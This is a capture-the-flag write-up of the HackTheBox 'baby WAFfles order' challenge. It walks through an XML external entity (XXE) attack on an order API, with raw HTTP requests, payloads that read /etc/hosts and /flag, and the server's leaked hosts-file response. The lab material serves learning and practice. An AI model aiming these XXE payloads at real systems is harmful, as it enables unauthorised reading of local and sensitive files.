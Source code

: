 # baby WAFfles order

Completed: Yes
Platform: HackTheBox

The title said `xxe`. It is a hint. But, firstly, let's see JS source code:

```jsx
const form = document.getElementsByTagName('form')[0];

form.addEventListener('submit', e => {
  e.preventDefault();
  fetch('/api/order', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({
      table_num: document.getElementById('table').value,
      food: document.getElementById('food').value
    })
  })
  .then(r => r.json())
  .then(data => {
    flash(data.message, data.status);
  });
});
```

As you can see, here we have a listener for POST requests and it expects `application/json`. But as the challenge said `xxe`. Let's use `application/xml`and do XXE body. I chose on from here [https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list).

```
POST /api/order HTTP/1.1
Host: 206.189.17.217:32543
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://206.189.17.217:32543/
Content-Type: application/xml
Origin: http://206.189.17.217:32543
Content-Length: 99
Connection: close

<!--?xml version="1.0" ?-->
<userInfo>
 <tablenum>John</tablenum>
 <food>Doe</food>
</userInfo>
```

Got response:

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 15 Jul 2021 12:24:59 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.15
Content-Length: 47

Your Doe order has been submitted successfully.
```

Well, let's adjust it to see files:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE data [<!ELEMENT userInfo ANY><!ENTITY file SYSTEM "file:///etc/hosts">]>
<userInfo>
 <tablenum>John</tablenum>
 <food>&file;</food>
</userInfo>
```

Got answer:

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 15 Jul 2021 12:26:04 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.15
Content-Length: 289

Your # Kubernetes-managed hosts file.
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
fe00::0	ip6-mcastprefix
fe00::1	ip6-allnodes
fe00::2	ip6-allrouters
10.244.26.32	webowaspbabywafflesorder-624939-594fd6d575-lhnj5
 order has been submitted successfully.
```

Thus, we successfully exploited XXE. Now, we need to grab the flag. I was searching a little bit, but then found it in just root directory:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE data [<!ELEMENT userInfo ANY><!ENTITY file SYSTEM "file:///flag">]>
<userInfo>
 <tablenum>John</tablenum>
 <food>&file;</food>
</userInfo>
```